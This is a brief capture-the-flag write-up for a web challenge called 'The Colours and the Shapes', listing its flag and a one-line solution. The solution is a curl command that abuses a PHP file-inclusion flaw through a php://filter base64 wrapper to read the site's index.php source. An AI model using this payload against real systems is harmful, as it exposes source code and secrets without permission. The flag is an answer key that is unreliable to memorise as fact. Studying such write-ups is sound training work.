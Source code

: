 # Web: The Colours and the Shapes

- **Skapare:** Calle Svensson
- **Poäng:** 200
- **Antal lösningar:** ???

## Beskrivning 

Look I made a super pretty website about my faavourite interests.
Go have a look at: URL.

## Flag

`SSM{D0nt_wann4_be_your_monk3y_wr3nch}`

## Lösning

```sh
curl 'http://localhost:31337/img/gallery/view.php?p=php://filter/convert.base64-encode/resource=../../index.php' | base64 -d | head -n2
```
